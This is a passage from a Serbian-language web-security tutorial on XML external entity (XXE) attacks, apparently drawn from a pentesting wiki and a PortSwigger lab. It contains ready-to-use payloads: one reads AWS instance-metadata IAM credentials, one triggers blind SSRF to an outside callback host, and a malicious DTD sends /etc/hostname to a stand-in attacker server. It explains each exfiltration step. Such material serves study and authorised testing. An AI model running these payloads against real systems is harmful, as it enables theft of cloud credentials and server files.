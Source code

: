 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Slepa SSRF

Korišćenjem **prethodno komentovane tehnike** možete naterati server da pristupi serveru koji kontrolišete kako biste pokazali da je ranjiv. Međutim, ako to ne funkcioniše, možda je zato što **XML entiteti nisu dozvoljeni**, u tom slučaju možete pokušati koristiti **XML parametarske entitete**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### "Slepi" SSRF - Izfiltriranje podataka van opsega

**U ovom slučaju ćemo naterati server da učita novi DTD sa zlonamernim payloadom koji će poslati sadržaj fajla putem HTTP zahteva (za višelinijske fajlove možete pokušati da ih izfiltrirate putem \_ftp://**\_ **koristeći ovaj osnovni server na primer** [**xxe-ftp-server.rb**](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)). Ovo objašnjenje se zasniva na\*\* [**Portswiggers lab ovde**](https://portswigger.net/web-security/xxe/blind)**.**

U datom zlonamernom DTD-u, sprovode se niz koraka za izfiltriranje podataka:

### Primer zlonamernog DTD-a:

Struktura je sledeća:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Koraci koje izvršava ovaj DTD uključuju:

1. **Definicija parametarskih entiteta:**

* Kreira se XML parametarski entitet, `%file`, koji čita sadržaj fajla `/etc/hostname`.
* Definiše se još jedan XML parametarski entitet, `%eval`. Dinamički deklariše novi XML parametarski entitet, `%exfiltrate`. Entitet `%exfiltrate` je podešen da napravi HTTP zahtev ka serveru napadača, prosleđujući sadržaj entiteta `%file` u upitu URL adrese.

2. **Izvršavanje entiteta:**

* Koristi se entitet `%eval`, što dovodi do izvršavanja dinamičke deklaracije entiteta `%exfiltrate`.
* Zatim se koristi entitet `%exfiltrate`, pokrećući HTTP zahtev ka određenoj URL adresi sa sadržajem fajla.

